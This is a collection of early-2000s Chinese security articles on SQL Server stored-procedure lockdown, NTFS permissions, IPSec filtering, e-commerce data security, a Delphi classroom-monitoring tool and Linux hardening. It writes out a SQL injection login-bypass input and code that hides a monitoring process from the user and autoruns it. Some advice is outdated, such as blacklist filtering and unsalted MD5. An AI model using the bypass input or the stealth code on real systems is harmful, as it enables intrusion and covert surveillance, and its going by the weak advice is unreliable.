| Sp_cursorclose | Xp_dropwebtask | Xp_revokelogin |
| Sp_cursorfetch | Xp_dsinfo | Xp_runwebtask |
| Sp_cursoropen | Xp_enumdsn | Xp_schedulersignal |
| Sp_cursoroption | Xp_enumerrorlogs | Xp_sendmail |
| Sp_getmbcscharlen | Xp_enumqueuedtasks | Xp_servicecontrol |
| Sp_getbindtoken | Xp_eventlog | Xp_snmp_getstate |
| Sp_ismbcsleadbyte | Xp_findexeomsg | Xp_snmp_raisetrap |
| Sp_oacreate | Xp_fixeddrives | Xp_sprintf |
| Sp_oadestroy | Xp_getfiledetails | Xp_sqlinventory |
| Sp_oageterrorinfo | Xp_getnetname | Xp_sqlregister |
| Sp_oagetproperty | Xp_grantlogin | Xp_sqltrace |
| Sp_oamethod | Xp_logevent | Xp_sscanf |
| Sp_oasetproperty | Xp_loginconfig | Xp_startmail |
| Sp_oastop | Xp_logininfo | Xp_stopmail |
| Sp_replcmds | Xp_makewebtask | Xp_subdirs |
| Sp_repldone | Xp_msver | Xp_unc_to_drive |
| Sp_replflush | Xp_perfend | Xp_regaddmultistring |
| Sp_replstatus | Xp_perfmonitor | Xp_regdeletekey |
| Sp_repltrans | Xp_perfsample | Xp_regdeletevalue |
| Sp_sdidebug | Xp_perfstat | Xp_regenumvalues |
| Sp_availablemedia |  | Xp_regread |
| Sp_cmdshell |  | Xp_regremovemultistring / Xp_regwrite |

删除以上存储过程必须先确认，避免对数据库或应用程序造成伤害。如果是开发用服务器和需要使用 Enterprise Manager 时，不推荐删除以上存储过程。

数据库管理员应该站在攻击者的角度来观察 SQL Server，不断对服务器进行配置修改并对潜在安全漏洞进行监视，这样 SQL Server 才能得到最大化的安全性。

## NTFS 全面解读

### Windows 2000 的安全方案

文／单长虹

随着 Windows 2000 操作系统的普及使用，人们经常接触到它所支持的 NTFS 文件系统。尽管对于 NTFS 了解的人比较多，但真正能在实际工作生活中灵活运用的人相对较少。本文将从 NTFS 几大新的安全特性入手，对它进行全面介绍，并提供给读者可供参考的安全方案。

文件系统指文件命名、存储和组织的总体结构。Windows 2000 支持 3 种文件系统：FAT、FAT32 和 NTFS。无论哪一种文件系统，都是以簇为分配的最小单位……在 FAT 与 FAT32 下会因为分区大小导致簇变大而浪费空间；NTFS 的分区表现更好，簇最大就是 4K。

在 Windows 2000 以前，Windows NT 使用 NTLM 协议作为网络身份验证协议。Windows 2000 在一定程度上扩充了该机制，默认使用 Kerberos v5 作为身份验证协议；并支持 Crypto API、SSL 及公钥密码加密等附加身份验证工具。在允许用户访问资源前，系统会先验证身份并结合访问令牌进行访问控制判断。

### Windows 2000 安全性概述

Windows 2000 安全性具有两个方面：授权（authorization）和身份验证（authentication）。身份验证用于确认用户身份；授权用于基于安全凭证（security credential）决定是否允许访问任务和对象。两者联系紧密，但并不相同：身份验证不直接关心访问控制，而授权关注经过验证用户的访问权限。

验证用户身份之后，Windows 2000 将允许或拒绝用户访问安全对象。系统通过比较对象的访问控制列表与用户访问权限做出决定，并自动执行检查，无需用户在代码中自行测试访问许可。

### 基本安全性数据结构

- 1. **SID**：它是安全标识符（security identifier）的缩写。这个结构可以唯一地标识用户或组。并且一旦在系统中被使用过一次，即便与之相关联的安全对象已经被删除，这个 SID 也将不会分配给任何其他对象使用。
- 2. **ACE**：它是访问控制项目（access control entry）的缩写。这个结构定义了 SID 怎样才能与安全对象交互。ACE 可能会允许对特定 SID 的访问，也有可能拒绝。它还可以为 SID 定义安全审核（security-auditing）参数。
- 3. **ACL**：它是访问控制列表（access control list）的缩写。这是一个数组，包含零个或多个 ACE。ACL 可能同时包含允许访问的 ACE 和拒绝访问的 ACE。
- 4. **DACL**：它是自主访问控制列表（discretionary access control list）的缩写。这是一个 ACL，可用于允许或拒绝对某个安全对象的访问。
- 5. **SACL**：它是系统访问控制列表（system access control list）的缩写。这个 ACL 用于审核对安全对象的访问。
- 6. **SECURITY_DESCRIPTOR**：这个结构包含对象的安全性信息。这个信息包括与该对象相关联的 DACL 和 SACL，以及它的所有者和组成员的信息。

### NTFS 许可及其对应的许可操作

- 1. 文件许可介绍：
  - 1) **READ（读）**：读取文件，查看文件属性、文件所有者和文件许可。
  - 2) **WRITE（写）**：改写文件，改变文件属性，查看文件所有者和许可。
  - 3) **READ&EXECUTE（读取和执行）**：除了具有读的许可外，还可执行文件。
  - 4) **MODIFY（修改）**：除了具有 WRITE 和 READ&EXECUTE 许可外，还可以修改和删除文件。
  - 5) **FULL CONTROL（完全控制）**：除了具有以上许可外，还可以修改许可，获取文件的所有权。
- 2. 文件夹许可：除了具有以上许可外，还有一条，就是“列出文件夹目录”，它允许用户查看目录。
- 3. 宏观 ACE：这个概念没有人用过，但是为了方便，我暂且使用它。对于某些用户或者某些组设置的许可组合，它实际上最终就是修改了内部的 ACE 数据结构，所以我称之为宏观 ACE。显然，针对一个文件（夹）所作的多条宏观 ACE，最终将修改 ACL，…

全页，如图 1 所示。

图 1 安全对象的安全页

针对这个对象，只有一个 ACE，即对 Everyone 组设置的。也就是说，现在的 ACL 中有一个 ACE 构成。

- 4. 当 ACL 中有多条 ACE 存在时，如何判定最终的访问许可。

这是一个比较复杂的问题。比如说，我们设置了 Everyone 组对文件夹 test 只读许可，对用户 Administrator 设置了完全控制许可，那么用户 Administrator 最终许可是什么？对于这类问题的解决，我们有 3 条原则，分别是：多个组被赋予的不同许可可以累加（针对组之间的许可冲突）；文件许可优先于目录许可（针对文件夹和文件的许可冲突）；拒绝访问许可优先（针对用户和它所属组的许可冲突）。

对于上面提出的问题，我们该如何理解呢？实际上，Everyone 组在设置只读许可的同时，将其他许可（如完全控制）也隐含地拒绝了。因为 Administrator 在访问对象时，属于 Everyone 组，根据第三条原则（拒绝访问许可优先）…可以知道，Administrator 对这个对象的许可是只读。

再来看一个问题：如果现在针对组 Administrators 又在 test 对象上设置了一个 ACE，允许 Administrators 组对 test 的完全控制，现在请问 Administrator 用户对 test 的许可是什么，是只读还是完全控制？

对于这个问题，我们要依据第一条原则：Administrator 用户同时属于 Administrators 和 Everyone 组，把它们的许可累加，显然，Administrator 用户获得了对 test 的完全控制许可。

读者在实际中碰到诸如此类的问题时，可以灵活运用以上的 3 条原则，做出有利于安全的决策。

### 5. DACL 和 SACL 能够看到吗？

答案是肯定的！方法是：右键点击“对象→属性→安全页→高级”，如图 2 所示。


图 2 高级页面

其中，“权限”页的列表便是 DACL，“审核”页的列表便是 SACL。用户可以自己动手操作一下看一看。

### 6. 所有者变更

来看这样一个问题：在 AAA 公司的某台电脑中，用户 USER001 创建了一个重要文件 FILE001，并且只允许它自己完全控制。当用户 USER001 辞职以后，公司如果想读取这个文件，管理员有没有办法？答案也是肯定的。

（没有管理员办不到的事情，呵呵）！

这里需要经过两步：首先，以管理员身份登录，打开如图 2 所示的对话框，选择“所有者”页，如图 3 所示。选中“替换子容器及对象的所有者”，“应用”之后，你就可以看到提示，依次继续下去就可以了。取得所有权之后，在所有者页面中会留下如图 3 所示的页面（注意：只有管理员组的成员才有这个权限），以记录是谁取得了所有者权限。然后，就可以在安全页面中设置你想要的 ACE，进行访问控制了。


图 3 所有者页面

### 磁盘配额

#### 1. 磁盘配额概述

配额是指卷的磁盘配额跟踪以及控制磁盘空间的使用，简单点说就是限制用户可以在卷上使用多少空间。系统管理员可将 Windows 配置为：用户超过所指定的磁盘空间限额时，阻止进一步使用磁盘空间和记录事件；当用户超过指定的磁盘空间警告级别时记录事件。

启用磁盘配额时，可以设置两个值：磁盘配额限度和磁盘配额警告级别。该限制指定了允许用户使用的磁盘空间容量。警告级别指定了用户接近其配额限度的值。例如，可以把用户的磁盘配额限度设为 50MB，并把磁盘配额警告级别设为 45MB。这种情况下，用户可在卷上存储不超过 50MB 的文件。如果用户在卷上存储的文件超过 45MB，则把磁盘配额系统记录为系统事件。

可以指定用户能超过其配额限度。如果不想拒绝用户访问卷，但想跟踪每个用户的磁盘空间使用情况，启用配额但不限制磁盘空间使用将非常有用。也可指定不管用户超过配额警告级别还是超过配额限度时是否要记录事件。

启用卷的磁盘配额时，系统从那个值起自动跟踪新用户卷使用。但是，磁盘配额不应用到现有的卷用户上。可以通过在“配额项目”窗口中添加新的配额项目，将磁盘空间配额应用到现有的卷用户上。

可以在本地卷和网络卷上启用配额，但是只能在从卷的根目录共享以及用 NTFS 文件系统格式化的卷上启用配额。要支持磁盘配额，磁盘卷必须用 Windows 2000 中的 NTFS 版本格式化。用 Windows NT 4.0 中使用的 NTFS 版本格式化的卷，将被 Windows 2000 安装程序自动升级。要管理卷上的配额，您必须是驱动器所在计算机上的 Administrators 组成员。如果卷不是用 NTFS 格式化的，或者您不是本地计算机上的 Administrators 组成员，那么卷的属性页上将不显示“配额”选项卡。

文件压缩不影响配额统计。例如，如果用户 A 限制使用 3MB 的磁盘空间，那么只能存储 3MB 的文件，即使文件压缩之后只有 50K。

在使用配额的时候，要么只能对单个用户一个一个做，要么只能对所有用户做，不能依次配置多个用户。


图 4 对所有用户启用配额

#### 2. 配置方法

- 1. 针对所有用户：在卷上（逻辑分区）点击右键选择“属性→配额”，如图 4 所示。这样做了以后，当有新的用户来访问这个卷时，最多只能使用 200M 的空间；当它使用的空间达到 199M 时，将进行警告；当满 200M 时，将拒绝它使用多余的空间。并且，每个在此卷上的新用户，在此卷上看到的总空间只有 200M。在多用户的机器上，建议对系统分区使用这样的配额，以防止用户使用空间过度膨胀，导致系统无法利用空间。不过，在对系统分区采取此措施的时候一定要注意，限制的空间不可过小，如果太小，将无法登录进系统。
- 2. 对单个用户配额：在图 4 所示页面中，点击“配额项”，打开如图 5 所示的窗口。在“配额”菜单中，选择“新建配额项”，即可对本机用户进行配额限制。然后用户便可按提示配置，很简单，不多说了。

### 后记

NTFS 的新特性远远不止这些，还有像加密、压缩和分布式文件系统等，这些内容介绍得已经比较多了，这里就不多说了。如果大家在实际中碰到什么问题，可以自己动手试一下。


图 5 “单用户配额”

## 用 IPSec 简单地打造安全的服务器

文／彬彬


本文将通过实例介绍如何用 IPSec 简单地打造一个企事业单位的安全服务器。

本文以常见的企事业单位应用需要为题，具体要求如下：

对外限制：外部网络只能访问服务器的 25（SMTP）、80（WEB）和 110（POP）端口。开放 80 端口是让服务器能正常提供 Web 服务；开放 25 端口是方便服务器接收外部邮件；开放 110 端口是方便员工在非上班时间从外部网络收取邮箱邮件。

对内限制：虽然内部通常限制较少，但为使服务器对内、对外都处于相对安全状态，也需对内部网络做一定限制。对内限制可比对外少一些，除上述 3 个端口外，还可按需开放 21（FTP）、8000（腾讯内部 QQ）等端口。

假设内部网络只有一个子网，IP 范围为 192.168.1.*，子网掩码为 255.255.255.0。服务器有双网卡：一块直连 Internet，另一块连接内部网络。下面介绍如何根据需求设置 IPSec。

首先，在“添加/删除程序”的“添加/删除 Windows 组件”里，把不需要的默认网络服务删除（如“网络服务”中的非必需项），以减少开放服务和端口。

然后，在“管理工具”中打开“本地安全策略”，选择左侧“IP 安全策略（在本地机器）”，再选“创建 IP 安全策略”。


图 1

选“创建 IP 安全策略”后，会弹出如图 2 所示的添加向导第一个窗口：在图 2 所示窗口中按“下一步”，然后转到后续设置。


图 2

图 3 所示的窗口：


图 3

如图 3 所示，根据需要输入新 IP 安全策略的名称与描述，然后再按“下一步”转到如图 4 所示的窗口：


图 4

在图 4 的窗口中不要选中“激活默认响应规则”，然后按“下一步”转到如图 5 所示的窗口：


图 5

在图 5 的窗口中按“完成”按钮，将进入刚刚创建的 IP 安全策略属性窗口，如图 6 所示。不要选中“使用添加向导”，然后单击窗口中的“添加”按钮，添加一个新的安全规则。


图 6

按了“添加”按钮后，会不使用“添加向导”而直接弹出一个新的安全规则设置窗口，如图 7 所示。在如图 7 所示的窗口中，按“添加”按钮，创建一个新的筛选器列表。图 8 就是按“添加”后所弹出的筛选器列表添加窗口。


图 7

如图 8 所示，输入适当的名称与描述信息，然后不要选中“使用添加向导”，再按“添加”按钮来添加具体的筛选器。第一个要添加的筛选器目的是只允许内部 IP 访问 21 端口的 FTP 服务，按“添加”按钮后具体设置如图 9、图 10 和图 11 所示。


图 8


图 11


图 9

用同样的方法，多添加一个筛选器，允许内部 IP 访问 8000 端口，只要在上面的方法中改一改相应地方的端口和描述信息就可以了。需要注意的是，不能选中“镜像，同时匹配具有正好相反的源和目标地址的数据包”这一项。添加完后，按“确定”或关闭按钮回到图 7 所示的窗口。图 7 中应该已经有我们刚刚添加的这个筛选器列表“只允许内部访问 21、8000 端口”了，选中它，然后转到“筛选器操作”选项卡，选其中的“允许”项，然后按“关闭”回到图 6 所示窗口。这个筛选器列表就添加完成了。

上面的设置完后，就轮到设置要阻止连接的端口了。为了清楚知道系统现在开放了什么端口，我们在命令行方式下使用了 `netstat -a` 命令，命令运行结果如图 12 所示。


图 10


图 12

当服务器在网络上访问过其他机器或被其他机器访问过后，图 12 的列表中将会多很多无用的信息。为了使其中的垃圾信息尽可能少，所以我重新启动了一次服务器，然后才运行这条命令，这样就能把真正的列表显示出来了。如图 12 所示，其中注明了正在侦听（也就是开放了）的 TCP 端口有：135（epmap）、445（microsoft-ds）、1025、1026、1027、1028、3372，而 UDP 端口则只有 445（microsoft-ds）。也许不是每一部服务器都开放这些端口，这里只是给个例子，各位可以根据开放端口的不同而适当地改一下。由于邮箱、FTP、WEB、内部 QQ 服务都还没启动，所以这里并没有显示开放了以上服务相应的端口。这里顺便提一下，在服务器设置好之前，为安全起见，最好不要启动任何对外服务；如果没必要使用网络的话，最好连网线都拔掉，或禁用所有网络连接。

本文中并没有提到关于 25、80、110 这 3 个端口的设置，而只提到 21 和 8000 端口的设置，原因是默认就是对任何用户开放，而 21 和 8000 是只对内部开放，所以才要特意指定 21 和 8000 只让 192.168.1.* 访问。

下面开始在 IPSec 中添加要拦截的端口。在图 6 所示窗口中，再一次按“添加”按钮，进入如图 7 所示窗口。此时窗口应该比原先多了我们刚刚添加的允许连接 21、8000 端口的筛选器列表，再按窗口中的“添加”按钮，开始添加需要拦截的项目，如图 13 所示，在新加的筛选器列表中输入相关信息：


图 13


图 14


图 14

在图 13 的窗口中再按“添加”按钮，正式添加具体筛选器。在新筛选器中的设置如图 14、图 15 和图 16 所示。这样，就拦截了所有对 135 端口的 TCP 连接。用图 14、图 15、图 16 的设置方法，再添加刚才用 `netstat -a` 命令得出的其他开放端口：445、1025、1026、1027、1028、3372。根据需要，如果想把开放 UDP 的 445 端口也拦截掉的话，只要再添加一个筛选器，把协议选成 UDP，端口设为 445 就可以了，其他都跟上面设置一样。


图 15

新筛选器添加好后，按“确定”确认，然后将回到如图 13 所示的窗口；窗口中应该已经有刚刚添加的筛选器了，再按“关闭”按钮回到图 7 所示窗口。此时窗口中已经存在两个我们新加的筛选器列表了，选中其中的“拦截其他系统默认已开放的端口”，然后转到“筛选器操作”选项卡，选其中的“拦截”项，再按下面的“关闭”，这个筛选器列表就正式添加完成了。最后，对新增策略进行指派就行了。

在电子商务的项目开发中，常常会遇到一些令人头痛的问题，首当其冲的是数据安全问题。电子商务依靠网络途径，以数据为载体，将传统的商务流程电子化、全球化，一旦数据出了问题，则整个电子商务活动将陷入瘫痪，解决电子商务的数据安全问题刻不容缓！那么，怎么解决才算是万全之策呢？看看下文吧，也许对你会有所启发！

## 电子商务中的数据安全解决方案


### 数据库的解决方案：彻底防止下载

这已是老生常谈的话题了。数据库乃数据的栖息之所，是电子商务安全之本，因此，保护好数据库的安全是开发者责无旁贷的事情。虽然很多时候攻击都带有盲目性，但往往也会“歪打正着”，有经验的黑客尝试几下就猜中了数据库的路径。只要他在浏览器的地址栏里输入数据库的绝对路径，轻轻敲一下回车就把数据库下载了，后果可想而知。因此，对数据库做一些小小的防护措施是必要的。

“躲躲藏藏”为良策。其实数据库也是一个文件而已，跟普通文件一样，有自己的存储位置、结构和扩展名，只有明确知道数据库的路径、名称和扩展名才能下载数据库。要躲过入侵者的视线，不让他们轻易获得这些信息，可以为数据库起一个不规则的名字，并将它放到几层目录下，目录与目录之间的名称也应不规则。将数据库躲藏在一个如此隐蔽的地方，相信入侵者用猜测的方法是难以下手的。

“改头换面”是妙计。光靠多建几个目录和起个复杂的名字是不够的，数据库文件的属性依然存在（如 ACCESS 数据库的扩展名是 .mdb 等）。如果因为服务器被入侵、ASP 代码泄露等暴露了数据库路径，仍然有被下载的隐患，所以大可以将数据库扩展名改为 .asp，以假乱真。你也不用担心这样会出乱子，只改扩展名，文件结构和文件头不变，系统仍然能识别。但这个文件里不含 `<%` 或 `%>` 等标签，所以 IIS 不对这个文件作任何处理，下载的数据库和原数据库完全一样。最后应将 `<%` 或 `%>` 等标签存入 OLE 对象字段里，这样就能彻底防止数据库被下载了。

### 外部攻击的解决方案：输入边界检查

数据入口是系统与用户交流的必要通道，入侵者们很狡猾，又岂能轻易放过？于是产生了各种形式的 SQL Injection 攻击。比如说一般在验证用户是否合法时，会将用户名和密码放到一个查询语句里比较，用如下语句：

```vb
select * from table where user='"&request("user")&"' and password='"&request("password")&"'
```

这样做造成了极大的漏洞，使得入侵者在用户名框内输入：`aa' or user<> 'aa`，口令框内输入：`aa' or password<> 'aa`，就可以成功骗过系统而进入。实际上如果改变一下写法，不要用 And 将用户名和密码连在一起，先根据用户名查询记录，然后再拿密码跟数据库中的密码值比较，这样就能避免以上弊端。当然，这主要是由程序设计者的疏忽造成的，只要加个输入边界检查函数，过滤掉一切可疑符号，就可以防范这种形式的攻击。以检查用户名为例，参考代码如下：

```vb
Dim uID
uID = request.form("name")
call checkinput(uID)
```

下面是 `checkinput()` 过程的具体内容，可以放在该页面代码的任何地方：

```vb
Sub checkinput(input)
    For i = 1 To Len(input)
        us = Mid(input, i, 1)
        If us = "'" Or us = "%" Or us = "<" Or us = ">" Or us = "&" Or us = """" Then
            Response.Redirect "错误警告页面"
            Response.End
        End If
    Next
End Sub
```

### 敏感数据的解决方案：散列与加密

尽管数据库的安全工作已做得足够好，但是将一些敏感数据（如用户密码、遗忘密码答案等）以明文形式存放在数据库里实在让人放心不下。特别是使用虚拟主机的朋友，服务器的控制权掌握在空间提供商手里，谁能保证他们不会偷窥你的数据库记录呢？因此，必须将这些敏感数据通过散列与加密的方法处理之后，再存储进数据库。

#### 1. 何谓散列与加密

假如有两组敏感数据，一组是密码，一组是身份证号码，那么哪组该用散列，哪组该用加密方式呢？散列是获取一个唯一表示某对象的值的方式，它是通过不可逆转的算法来实现的，即不能通过散列字符串来推测原本内容。这就保证了即使你的数据库被人盗窃，也看不到用户密码是什么。密码需要生成一个唯一字符串，当然应该选择散列。于是，要验证用户输入的密码是否正确，只要用同样的方法将输入密码生成一个散列，再把它与存储在数据库中的散列相比较，如果两者内容相匹配，则表示用户输入的密码是正确的，因此通过了身份验证。身份证号码存储为加密格式，这是很必须的，因为在需要时还能检索出某用户的身份证号码等信息，因此不能简单使用散列。关于加密请读者参考相关资料，在此不赘述。由于散列相对简单，本节只讨论它。

#### 2. 如何实现密码的散列

说到密码散列，大家可能比较熟悉的是 MD5 算法。在用 ASP 编程的时候，通常是这样做的：到网上下载一个 MD5 算法文件，通常名称是 `md5.asp`，然后在要加密的页面包含该文件，运用 `md5()` 函数转换密码明文，以下是相关代码：

```asp
<!-- #include file="md5.asp" -->
Dim dbpwd
dbpwd = md5(request.form("password"))

' dbpwd 已经获得密码的散列串了，接下来将 dbpwd 存储进数据库即可。
' 到检查用户输入密码是否正确的时候，可以运用以下方法：
<!-- #include file="md5.asp" -->
If md5(pwd) <> dbpwd Then
    Response.Redirect "错误页面"
    Response.End
End If
```

从上述可以看出，实现密码的散列，编程者可以完全不懂其中的原理，只要知道怎么调用就可以了。于是到了 .NET 时代，微软公司就顺理成章地继承了这一观念，将几种散列和加密算法集成到它的 .NET Framework 命名空间 `System.Security.Cryptography` 中。该命名空间包含了几个不同的算法，其中有两个主要的散列算法：MD5 ...Digest）、SHA1（Secure Hash Algorithm，安全散列算法）。下面再来看看在 ASP.NET 中是如何实现密码散列的：打开 Visual Studio .NET，新建一个项目，在相应页面的代码后置类文件 `.aspx.vb` 中首行引入命名空间：

```vb
Imports System.Web.Security
```

然后再定义“注册”或“提交”之类的按钮单击事件函数：

```vb
Private Sub btnCreateHash_Click(ByVal sender As System.Object, ByVal e As System.EventArgs) Handles btnCreateHash.Click
    Dim hashPassword As String
    Dim encryptFormat As String
    ' 设定加密格式
    encryptFormat = "MD5"   '（或 "SHA1"）
    ' 产生密码
    hashPassword = FormsAuthentication.HashPasswordForStoringInConfigFile(txtPassword.Text, encryptFormat)
    ' 接下来便可以将 hashPassword 提交给数据库
End Sub
```

大家若要看加密后的效果及安全性如何，可以到 25cn.net 下载我发布的“建站系统 MyWeb3000”，该程序采用了 SHA1 散列处理用户密码。为了配合本文，笔者还专门在 25cn.net 上编写了一个页面，帮助各位读者替纯文本密码产生 MD5 和 SHA1 的密码；只要在“文本密码”处输入要加密的密码内容，然后选择“MD5”还是“SHA1”，再单击“创建密码”按钮，就可以得到相应的散列字符串。大家可以对比一下两种算法的差别，该页面的连接地址是：25cn.net/sample/md5/md5.aspx，如有问题可以到论坛提出，我会及时和大家交流。

### 数据传输的解决方案：安全连接 SSL

电子商务的活动范围是全球性的，这就难免有些人对商务的网站虎视眈眈，使用 HTTP 协议传输数据很容易被其他人截取或窃听，比如信用卡号码、身份证等敏感信息，一旦被截获将会后患无穷。因此我们要采取主动措施，让数据在线路上安全通信，做到未雨绸缪。最好的解决方案是：在 HTTPS 连接上使用 SSL。

要做到这一点，需要做很多基础性的工作，如：需要从颁发证书的权威机构处为服务器获取一个安全证书，然后对服务器进行配置，通过 IIS 管理安装证书，还要对某个页面设置允许使用 SSL 连接等。有关这个问题笔者将在另一篇文章作详细的介绍，请关注。现在只提醒一下大家：并不是站点上的所有区域都需要 SSL 连接，所以不应把 SSL 连接应用于所有的地方，这样会消耗服务器资源，降低站点性能，只要确保身份检查、用户登录、用户注册和用户资料修改等页面通过 SSL 访问就可以了。

现在假设这些页面都在服务器的 IIS 管理器上配置好了，下面来看看如何在程序里应用 SSL 连接。解决这个问题的方法是：将重定向功能设置成 SSL 连接。目前的程序一般都使用下面的语法重定向页面：

```vb
Response.Redirect("目标页面")
```

但是把连接改为 SSL 连接，就要给页面提供完整的 URL，并且 URL 开头的“https://”字符串是不能少的，因此，应改为下面的语法使用 SSL 连接：

```vb
Response.Redirect("https://" & Request.Url.Host & "页面虚拟路径")
```

这样，使用 SSL 连接的页面再用 HTTP 访问，页面的请求就会被拒绝，必须使用 HTTPS 访问，传输的数据才能进入安全管道。

有关电子商务的数据安全，笔者就实际问题总结了以上 4 个方面的解决方案，若本文介绍的内容能为你解决实际问题，我们就会感到甚是欣慰！

## 网络机房监控软件实现

文／吴会松

计算机网络在大中小学教学中的使用非常普遍，但在老师们的教学中却发现了一个问题：在教学的过程中，由于老师是面对着学生，而背对着学生计算机的显示器，不能随时查看学生计算机显示器上的内容，所以有的学生在教学中偷玩游戏，影响了教学的质量和效果。因此，设计一款网络监控软件监控学生计算机，是非常有必要的。为实现这一目的，这个系统应具有以下功能：

- 教师用机可以循环显示学生计算机的显示器上的画面。
- 教师用机可以动态显示某一学生计算机的显示器上的画面。
- 教师用机可以对学生用计算机发出警告信息和控制信息。
- 学生用计算机开机自动运行服务端监控程序。
- 为了防止学生用计算机的服务端监控程序被学生发现后用 Ctrl+Alt+Del 关闭，在 Ctrl+Alt+Del 对话框中必须隐藏程序。同时，应该隐藏程序在任务栏的按钮。

### 程序实现

1. 本程序采用 UDP 协议来进行网络通信。服务端程序的 NMUDP 控件的 LocalPort 设为 6000，RemotePort 设为 6001。相应的客户端程序 NMUDP 控件的 LocalPort 设为 6001，RemotePort 设为 6000。服务端程序运行时，服务端程序的 NMUDP 控件监听本机的 6000 端口；当客户端程序的 NMUDP 控件有指令送到时，便开始相应的操作。由于该内容的介绍较多，此处从略。

2. 学生用计算机开机自动运行服务端监控程序，通过改写计算机的注册表来实现。

```pascal
procedure TForm1.FormCreate(Sender: TObject);
var
  reg:Tregistry;
begin
  reg:=Tregistry.Create;
  reg.RootKey:=HKEY_LOCAL_MACHINE;
  if not reg.KeyExists('SOFTWARE\\NET_VIEW') then begin  {判断是否存在该键}
    reg.CreateKey('SOFTWARE\\NET_VIEW'); {没有则建立}
    reg.OpenKey('SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run',true);
    reg.WriteString('Sysserv',application.ExeName);
  end;
  reg.CloseKey;
end;
```

3. 服务端程序的 NMUDP 控件监听本机的 6000 端口，当有抓屏指令送到时，便开始抓屏操作，同时将 BMP 格式的文件转换为 JPG 格式的文件，然后再发送到客户端。抓屏实现程序如下：

```pascal
begin
  dc:=getdc(0); {开始初始化操作}
  fullscreencanvas:=Tcanvas.Create;
  fullscreencanvas.Handle:=dc;
  bmpscreen:=Tbitmap.create;
  bmpscreen.Width:=screen.Width;
  bmpscreen.Height:=screen.Height;
  {源和目标矩形设置}
  sourcerect:=rect(0,0,screen.Width,screen.Height);
  destrect:=rect(0,0,screen.Width,screen.Height);
  bmpscreen.Canvas.CopyRect(sourcerect, fullscreenCanvas, destrect);
  jpegscreen:=Tjpegimage.Create;
  jpegscreen.Assign(bmpscreen);
  jpegscreen.CompressionQuality:=40;
  jpegscreen.SaveToStream(jpegStream);
  jpegstream.Position:=0;
  LeftSize:=jpegStream.Size;
  {释放}
  FullscreenCanvas.Free;
  bmpscreen.Free;
  jpegscreen.Free;
  ReleaseDC(0,DC);
end;
```

4. 在 Ctrl+Alt+Del 对话框中隐藏程序，需要用到一个在 Win32 中未直接公开的 API 函数 RegisterServiceProcess。因为是未公开的函数，所以在 Delphi 的 Windows.pas 单元中并未列出此函数的声明，Win32 帮助文档中该函数的 C 声明如下：

```c
DWORD RegisterServiceProcess(DWORD dwProcessId, DWORD dwType);
```

其中，dwProcessId 参数是要隐藏的进程的 ID 号，dwType 参数指明是隐藏进程还是显示进程，1 代表隐藏，0 代表显示。该函数执行成功，返回非零值。

```pascal
procedure TForm1.FormCreate(Sender: TObject);
var
  pID: DWORD;
begin
  pID:=GetCurrentProcessID();
  if 0 = RegisterServiceProcess(pID,1) then
    messagebox(self.Handle,'不能隐藏进程, 错误',MB_OK);
end;
```

5. 隐藏程序在任务栏的按钮实现起来很简单，因为主程序的窗口属于窗口类，通过设置主程序窗口的风格，就可以让它不出现在任务栏上。设置主窗口风格的方法是使用 SetWindowLong 函数，代码如下：

```pascal
ES:=GetWindowLong(Application.Handle, GWL_EXSTYLE);
ES:=ES or WS_EX_TOOLWINDOW and not WS_EX_APPWINDOW;
SetWindowLong(Application.Handle, GWL_EXSTYLE, ES);
```

6. 客户端即教师机的实现比较简单。使用定时器循环向不同的学生机发抓屏指令，用 IMAGE 控件显示服务端传来的图像。不停地向某一台学生机发抓屏指令，就可以动态显示某一学生计算机的显示器上的画面。向学生机发其他指令和警告信息的方法比较简单，在此不一一赘述。

> 本程序是我们开发的机房网络管理系统的一部分，在 Windows 98 和 Delphi 6.0 环境下通过。通过实际使用，效果较好。

## Linux系统

### 深度安全加固

文／ayazero

Linux 系统凭借其稳定且源代码公开的特性，在 Internet 上被用来做 Web 服务器与数据库服务器已经越来越多了。随之，Linux 系统的安全性也被愈发重视。加固 Linux 系统对于很多人来说，也是迫在眉睫的事情了。那么，要较好地加固 Linux 系统，足以应付各种突发事件与黑客的攻击，我们需要从哪些方面入手呢？

### 1. 安装和升级

尽量选用最新的 Linux 发行版本，安装前拔掉网线，断开物理连接，安装时建议用 custom 自定义方式安装软件包，数量以少为好。一般来说服务器没有必要安装 X-windows，在 lilo/grub 引导器中加入口令限制，防止能够物理接触的恶意用户。因为 Linux 安装光盘的 rescue 模式可以跳过这个限制，所以还要给 BIOS 加上密码或服务器机箱上锁。`/var`、`/home`、`/usr` 和 `/root` 等目录使用独立的物理分区，防止垃圾数据和日志填满硬盘而导致 D.O.S 攻击。对 root 账号要给予强壮的口令。安装完毕立即用 up2date 或 apt 升级系统软件，有时升级内核也是必要的，因为内核出现问题同样会给攻击者提供机会。apt 是 Debian GNU/Linux 下的一个强大的包管理工具，也可用于其他版本的 Linux。

### 2. 账号

如果系统中的用户比较多，可以编辑 `/etc/login.defs`，更改密码策略，删除系统中不必要的账户和组。如果不开匿名 ftp，可以把 ftp 账号也删了。删除账号的命令如下：

```bash
[root@ayazero /]# userdel -r username
```

最安全的方式是本地维护，可惜不太现实，但还是需要限制 root 的远程访问。管理员可以用普通账户远程登录，然后 su 到 root，我们可以把使用 su 的用户加到 wheel 组来提高安全性。在 `/etc/pam.d/su` 文件的头部加入下面两行代码：

```bash
auth sufficient /lib/security/pam_rootok.so debug
auth required /lib/security/pam_wheel.so group=wheel
```

然后把可以执行 su 的用户放入 wheel 组。

```bash
[root@ayazero /]# usermod -G10 admin
```

编辑 `/etc/securetty`，注释掉所有允许 root 远程登录的控制台，然后禁止使用所有的控制台程序，其命令如下：

```bash
[root@ayazero /]# rm -f /etc/security/console.apps/servicename
```

登录采用加密的 ssh，如果管理员只从固定的终端登录，还应限制合法 ssh 客户端的范围，防止嗅探及中间人攻击。同时，将命令历史记录归为零，尽可能地隐藏你做过的事情，其命令为：

```bash
[root@ayazero /]# unset HISTFILESIZE
```

### 3. 服务

采用最少服务原则，凡是不需要的服务一律注释掉。在 `/etc/inetd.conf` 中不需要的服务前加“#”，较高版本中已经没有 inetd，而换成了 xinetd；取消开机自动运行服务，把 `/etc/rc.d/rc3.d` 下不需要运行的服务的第一个字母 “S” 改成 “K”，其他不变。

如果你希望简单一点，可以使用 `/etc/host.allow` 和 `/etc/host.deny` 这两个文件，但是推荐使用 iptables 防火墙，所以不在此详述。

### 4. 文件系统权限

找出系统中所有含 “s” 位的程序，把不必要的 “s” 位去掉，或者把根本不用的直接删除，这样可以防止用户滥用及提升权限的可能性。其命令如下：

```bash
